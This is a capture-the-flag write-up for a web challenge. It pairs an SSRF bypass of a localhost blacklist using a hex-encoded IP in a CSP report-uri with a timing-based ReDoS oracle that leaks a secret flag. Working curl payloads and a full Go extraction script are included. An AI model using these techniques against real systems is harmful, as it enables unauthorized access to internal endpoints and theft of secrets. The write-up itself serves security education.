

# ExpressionalRebel

We have a website that evaluates some given Content Security Policy (CSP) restrictions:



## Source code analysis

We also have the source project, which is a Node.js Express web application. We can see some routes in routes/api.js:

```js
const express = require('express')
const router = express.Router()
const { evaluateCsp } = require('../utils')

router.post('/evaluate', async (req, res) => {
  const { csp } = req.body
  try {
    const cspIssues = await evaluateCsp(csp)
    res.json(cspIssues)
  } catch (error) {
    res.status(400).send()
  }
})

module.exports = router
```
And also in routes/index.js:

```js
const express = require('express')
const router = express.Router()
const isLocal = require('../middleware/isLocal.middleware')
const { validateSecret } = require('../utils')

router.get('/', (req, res) => {
  res.render('home')
})

router.get('/deactivate', isLocal, async (req, res) => {
  const { secretCode } = req.query
  if (secretCode) {
    const success = await validateSecret(secretCode)
    res.render('deactivate', { secretCode, success })
  } else {
    res.render('deactivate', { secretCode })
  }
})

module.exports = router
```

There is a middleware that checks that /deactivate is accessed from localhost. The source file is in middleware/isLocal.middleware.js:

```js
module.exports = function isLocal(req, res, next) {
  if (req.socket.remoteAddress === '127.0.0.1' && req.header('host') === '127.0.0.1:1337') {
    next()
  } else {
    res.status(401)
    res.render('unauthorized')
  }
}
```

Another interesting file is in utils/index.js. Here I print the most interesting functionalities:

```js
const regExp = require('time-limited-regular-expressions')({ limit: 2 })
const { CspEvaluator } = require('csp_evaluator/dist/evaluator.js')
const { CspParser } = require('csp_evaluator/dist/parser.js')
const { Finding } = require('csp_evaluator/dist/finding')
const { parse } = require('url')
const { env } = require('process')
const http = require('http')

const isLocalhost = async url => {
  let blacklist = ['localhost', '127.0.0.1']
  let hostname = parse(url).hostname
  return blacklist.includes(hostname)
}

const httpGet = url => {
  return new Promise((resolve, reject) => {
    http
      .get(url, res => {
        res.on('data', () => {
          resolve(true)
        })
      })
      .on('error', reject)
  })
}

const cspReducer = csp => { /* snip */ }

const checkReportUri = async uris => {
  if (uris === undefined || uris.length < 1) return
  if (uris.length > 1) {
    return new Finding(405, 'Should have only one report-uri', 100, 'report-uri')
  }
  if (await isLocalhost(uris[0])) {
    return new Finding(310, 'Destination not available', 50, 'report-uri', uris[0])
  }
  if (uris.length === 1) {
    try {
      await httpGet(uris[0])
    } catch (error) {
      return new Finding(310, 'Destination not available', 50, 'report-uri', uris[0])
    }
  }
}

const evaluateCsp = async csp => { /* snip */ }

const validateSecret = async secret => {
  try {
    const match = await regExp.match(secret, env.FLAG)
    return !!match
  } catch (error) {
    return false
  }
}

module.exports = {
  evaluateCsp,
  validateSecret
}
```

We see that there is a function that performs a GET request to a given URL (httpGet). Moreover, there is a validation in case that URL points to localhost or 127.0.0.1.

## Blacklist bypass

The first thing to notice is that the blacklist can be bypassed easily using the IP address 127.0.0.1 as a decimal number or hexadecimal number (2130706433 or 0x7f000001).

There is a call to httpGet inside checkReportUri. This second function verifies the URL that are in a CSP field called report-uri. We can put a report-uri that points to localhost and perform a Server-Side Request Forgery (SSRF) attack, for example:

```text
Content-Security-Policy: report-uri http://0x7f000001:1337
```

As we have the Node.js project and a Dockerfile, this could be tested adding some console.log to the code inside the Docker container, and it works. Now we can access /deactivate using a SSRF attack.

## ReDoS attack

The route /deactivate allows us to add a regular expression that will be tested against the flag. The use of the module time-limited-regular-expressions is kind of a hint, and actually a help for the exfiltration process.

Here we need to perform what is called a Regular Expression Denial of Service (ReDoS). We can use a time-based methodology to extract the flag character by character. The idea is to use a regular expression that would take a lot of time to complete if it matches, and only a few time if it does not match.

The use of time-limited-regular-expressions limits the processing time to 2 seconds, which will be useful for the scripting and exfiltration process.

The flag wan be obtained in two ways. The first one is from left to right, using this regular expression:

```text
^HTB\{f((((((.)*)*)*)*)*)*!
```

### Testing

The above regular expression will take a long time to compute if the first character of the flag content is an f (remember that the flags have a format HTB\{...\}). Otherwise, the regular expression will be processed immediately. Here we have a proof:

```sh
$ time curl 127.0.0.1:1337/api/evaluate -sH 'Content-Type: application/json' -d '{"csp":"report-uri http://0x7f000001:1337/deactivate?secretCode=^HTB\\{f((((((.)*)*)*)*)*)*!"}' > /dev/null
2,04 real         0,00 user         0,00 sys

$ time curl 127.0.0.1:1337/api/evaluate -sH 'Content-Type: application/json' -d '{"csp":"report-uri http://0x7f000001:1337/deactivate?secretCode=^HTB\\{a((((((.)*)*)*)*)*)*!"}' > /dev/null
0,04 real         0,01 user         0,00 sys
```

Nevertheless, this will not work to get the full flag, we can only exfiltrate characters. We are using the testing flag (HTB\{f4k3_fl4g_f0r_t3st1ng\}). There is a point where the processing time is not high enough to differentiate the correct character:

```sh
$ time curl 127.0.0.1:1337/api/evaluate -sH 'Content-Type: application/json' -d '{"csp":"report-uri http://0x7f000001:1337/deactivate?secretCode=^HTB\\{f4k3_fl4g_f0((((((.)*)*)*)*)*)*!"}' > /dev/null
2,05 real         0,00 user         0,00 sys

$ time curl 127.0.0.1:1337/api/evaluate -sH 'Content-Type: application/json' -d '{"csp":"report-uri http://0x7f000001:1337/deactivate?secretCode=^HTB\\{f4k3_fl4g_f0r((((((.)*)*)*)*)*)*!"}' > /dev/null
1,43 real         0,00 user         0,00 sys

$ time curl 127.0.0.1:1337/api/evaluate -sH 'Content-Type: application/json' -d '{"csp":"report-uri http://0x7f000001:1337/deactivate?secretCode=^HTB\\{f4k3_fl4g_f0r_((((((.)*)*)*)*)*)*!"}' > /dev/null
0,30 real         0,01 user         0,00 sys

$ time curl 127.0.0.1:1337/api/evaluate -sH 'Content-Type: application/json' -d '{"csp":"report-uri http://0x7f000001:1337/deactivate?secretCode=^HTB\\{f4k3_fl4g_f0r_t((((((.)*)*)*)*)*)*!"}' > /dev/null
0,09 real         0,01 user         0,00 sys
```

This happens because the remaining characters are not enough so that the regular expression takes a lot of computation time.

Hence, we need to exfiltrate the flag from right to left. The regular expression is similar:

```text
(((.)*)*)*[^g]\}$
```

It will take a lot of time to finish (limited to 2 seconds) if the last letter is not a g (if it were a g it will finish immediately). Here we need to negate the condition because we will iterate over all printable characters and we want that the correct one takes a long time, rather than the wrong ones take 2 seconds each (that would be endless). Here we have a proof:

```sh
$ time curl 127.0.0.1:1337/api/evaluate -sH 'Content-Type: application/json' -d '{"csp":"report-uri http://0x7f000001:1337/deactivate?secretCode=(((.)*)*)*[^g]\\}$"}' > /dev/null
        2,04 real         0,00 user         0,00 sys

$ time curl 127.0.0.1:1337/api/evaluate -sH 'Content-Type: application/json' -d '{"csp":"report-uri http://0x7f000001:1337/deactivate?secretCode=(((.)*)*)*[^a]\\}$"}' > /dev/null
        0,04 real         0,01 user         0,00 sys
```

Again, this method is not enough to get the full flag:

```sh
$ time curl 127.0.0.1:1337/api/evaluate -sH 'Content-Type: application/json' -d '{"csp":"report-uri http://0x7f000001:1337/deactivate?secretCode=(((.)*)*)*[^4]g_f0r_t3st1ng\\}$"}' > /dev/null
        2,04 real         0,01 user         0,00 sys

$ time curl 127.0.0.1:1337/api/evaluate -sH 'Content-Type: application/json' -d '{"csp":"report-uri http://0x7f000001:1337/deactivate?secretCode=(((.)*)*)*[^x]g_f0r_t3st1ng\\}$"}' > /dev/null
        2,04 real         0,01 user         0,00 sys
```

But we can join both results: HTB\{f4k3_fl4g_f0r_t and g_f0r_t3st1ng\} and get the full flag.

We can automate the exfiltration process using this Go script: redos.go

```go
package main

import (
	"bytes"
	"fmt"
	"os"
	"strings"
	"time"

	"net/http"
)

var httpClient = &http.Client{}
var host string

const CHARS = "_0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"

func postDuration(testPayload string) int64 {
	jsonData := []byte(testPayload)

	req, _ := http.NewRequest("POST", "http://"+host+"/api/evaluate", bytes.NewBuffer(jsonData))

	req.Header.Set("Content-Type", "application/json")

	t := time.Now()
	_, err := httpClient.Do(req)

	if err != nil {
		panic(err)
	}

	return time.Since(t).Milliseconds()
}

func joinFlags(frontflag, backflag string) {
	i := 1

	for ; strings.Index(frontflag, backflag[:i]) != -1; i++ {
	}

	i--

	if !strings.HasSuffix(frontflag, backflag[:i]) {
		fmt.Println("[*] Could not find a match between frontflag and backflag")
		fmt.Printf("[!] Possible flag: HTB{%s%s}
", frontflag, backflag)
		fmt.Printf("[!] Possible flag: HTB{%s_%s}
", frontflag, backflag)
		fmt.Printf("[!] Flag results: HTB{%s ...
%s... %s}
", frontflag, strings.Repeat(" ", 23+len(frontflag)), backflag)
	} else {
		fmt.Println("[*] Found a match between frontflag and backflag")
		index := strings.Index(frontflag, backflag[:i])
		flag := "HTB{" + frontflag[:index] + backflag + "}"
		fmt.Println("[!] Flag:", flag)
	}
}

func main() {
	if len(os.Args) != 2 {
		fmt.Println("Usage: go run main.go <ip:port>")
		os.Exit(1)
	}

	host = os.Args[1]

	frontflag, backflag := "", ""

	matched := true

	for matched {
		matched = false

		for _, c := range CHARS {
			testPayload := fmt.Sprintf(`{"csp": "report-uri http://0x7f000001:1337/deactivate?secretCode=^HTB\\{%s(((((((.)*)*)*)*)*)*)*!"}`, frontflag+string(c))

			if postDuration(testPayload) >= 2000 {
				frontflag += string(c)
				fmt.Printf("Frontflag: HTB{%s
", frontflag)
				matched = true
				break
			}
		}

		if strings.HasSuffix(frontflag, "__") {
			frontflag = frontflag[:len(frontflag)-2]
			break
		}
	}

	fmt.Printf("[+] Frontflag: HTB{%s
", frontflag)

	matched = true

	for matched {
		matched = false

		for _, c := range CHARS {
			testPayload := fmt.Sprintf(`{"csp": "report-uri http://0x7f000001:1337/deactivate?secretCode=^HTB\\{%s[^%s]%s\\}$"}`, strings.Repeat(".?", 50-len(backflag)), string(c), backflag)

			if postDuration(testPayload) >= 2000 {
				backflag = string(c) + backflag
				fmt.Printf("Backflag: %s}
", backflag)
				matched = true
				break
			}
		}

		if strings.HasPrefix(backflag, "__") {
			backflag = backflag[2:]
			break
		}
	}

	fmt.Printf("[+] Backflag: %s}
", backflag)

	joinFlags(frontflag, backflag)
}
```

We can use it like this: 

```sh
$ go run redos.go 127.0.0.1:1337
[+] Frontflag: HTB{f4k3_fl4g_f0r
[+] Backflag: f0r_t3st1ng}
[*] Found a match between frontflag and backflag
[!] Flag: HTB{f4k3_fl4g_f0r_t3st1ng}
```

## Improvements

To run it on server side, the second regular expression was replaced by:

```text
^HTB\{.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?[^g]\}$
```

It works much better. We use 50 .? and remove one every time we have another character of the flag.

## Flag

If we run it on server side, we get the flag:

```sh
$ go run redos.go 167.99.202.131:31069
[+] Frontflag: HTB{b4cKtR4ck1ng_4Nd_P4rs3Rs_4r
[+] Backflag: ck1ng_4Nd_P4rs3Rs_4r3_fuNnY}
[*] Found a match between frontflag and backflag
[!] Flag: HTB{b4cKtR4ck1ng_4Nd_P4rs3Rs_4r3_fuNnY}
```
